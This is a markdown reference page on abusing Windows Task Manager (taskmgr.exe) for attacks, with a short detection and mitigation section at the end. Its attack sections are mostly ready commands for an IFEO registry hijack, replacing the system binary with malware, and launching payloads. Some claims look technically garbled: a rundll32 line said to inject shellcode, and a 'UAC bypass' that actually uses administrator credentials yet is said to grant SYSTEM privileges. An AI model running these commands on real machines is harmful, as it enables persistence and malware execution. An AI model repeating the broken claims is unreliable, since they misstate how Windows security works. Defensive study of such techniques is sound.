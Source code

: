# taskmgr.exe
## What is it?
*```taskmgr.exe``` (Windows Task Manager) is a built-in Windows tool used to **monitor system performance**, **manage running processes**, **and terminate applications**.

## Legitimate Usage
- **Process Management** → View, start, or stop running applications and background processes.
- **Performance Monitoring** → Check CPU, memory, and network usage.
- **Startup Control** → Manage programs that launch at system startup.
- **User Management** → Log off, disconnect, or switch users.
*Since ```taskmgr.exe``` is a **trusted system process**, it is rarely flagged by security tools, making it an attractive target for attackers.*

## How to abuse it
- **Whitelisted Process** → Often allowed by application control policies.
- **Can Be Hijacked or Redirected** → Attackers can replace ```taskmgr.exe``` with a malicious binary.
- **Process Injection & Masquerading** → Used to hide or execute malicious payloads under a legitimate process.
- **Persistence via Registry Manipulation** → Task Manager execution can be redirected to launch malware.

## Example Attacks
### 1. Execution Hijacking via Image File Execution Options (IFEO)
*Attackers can modify Windows Registry to **redirect Task Manager execution** to another malicious binary.*
**Hijacking Task Manager Execution**
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskmgr.exe" /v Debugger /t REG_SZ /d "C:\malicious.exe" /f
```
*Every time Task Manager is opened, it will **launch ```malicious.exe``` instead**.*

### 2. Replacing Task Manager Executable (taskmgr.exe)
*Attackers with elevated privileges can replace ```taskmgr.exe``` with a **malicious version** to maintain persistence.*
**Replacing ```taskmgr.exe``` with a Malicious File**
```
takeown /f C:\Windows\System32\taskmgr.exe
icacls C:\Windows\System32\taskmgr.exe /grant administrators:F
copy C:\malware.exe C:\Windows\System32\taskmgr.exe /Y
```
*The system will launch ```malware.exe``` instead of the real Task Manager.*

### 3. Process Injection into Task Manager
*Attackers can **inject malicious code** into ```taskmgr.exe```, making it execute payloads while appearing legitimate.*
**Injecting Shellcode into Task Manager**
```
rundll32.exe shell32.dll,Control_RunDLL taskmgr.exe
```
*Executes ```taskmgr.exe``` while running injected shellcode in its memory space.*

### 4. Task Manager Used for UAC Bypass
*Attackers can leverage Task Manager to **restart ```explorer.exe``` with high privileges**, allowing them to **execute payloads with SYSTEM integrity**.*
**Steps to Perform UAC Bypass Using Task Manager**
1️⃣ **Kill ```explorer.exe``` via Task Manager**
*Manually terminate ```explorer.exe```*
```
taskkill /F /IM explorer.exe
```
*This will close the Windows desktop environment, forcing the user to restart it manually.*

2️⃣ **Launch Task Manager with Administrator Privileges**
*If running as a standard user, use ```runas``` to open an elevated Task Manager*
```
runas /user:Administrator "taskmgr.exe"
```
*This runs Task Manager in a high-integrity (administrator) context.*

3️⃣ **Restart Explorer with High Privileges**
*Once Task Manager is running **as an administrator**, restart ```explorer.exe``` from the **"File" → "Run new task" menu**, checking **"Create this task with administrative privileges"**.*
*Alternatively, run this command within an elevated Task Manager:*
```
cmd /c start explorer.exe
```
*```explorer.exe``` now runs with **administrator privileges**, allowing execution of any spawned processes as SYSTEM.*

4️⃣ **Execute Malicious Payload with SYSTEM Privileges**
*Now, any process launched via Explorer will **inherit SYSTEM integrity**.*
*To execute a payload (e.g., ```malware.exe```) with SYSTEM privileges:*
```
cmd /c start C:\malware.exe
```
*or*
```
powershell -ExecutionPolicy Bypass -NoProfile -File C:\payload.ps1
```
*The payload runs **with full administrative control**, bypassing UAC.*

# Detection & Mitigation
## Detection
**Monitor Unexpected Explorer Restarts**
- **Event ID 4688 (Process Creation)** → Detect ```explorer.exe``` launched from ```taskmgr.exe```
- **Sysmon Event ID 1 (Process Create)** → Look for ```taskmgr.exe``` executing ```cmd.exe``` or ```powershell.exe```

**Look for Elevated Task Manager Usage**
- **Event ID 4624 (Logon Events)** → Detect administrative logons
- **Monitor ```taskmgr.exe``` running with high privileges**

## Mitigation
- **Restrict Standard Users from Running Task Manager as Admin** → Use Group Policy to enforce access restrictions.
- **Block Unauthorized Explorer Restarts** → Alert on ```explorer.exe``` launching unexpectedly.
- **Use Application Control Policies** → Prevent unauthorized execution of scripts or binaries.

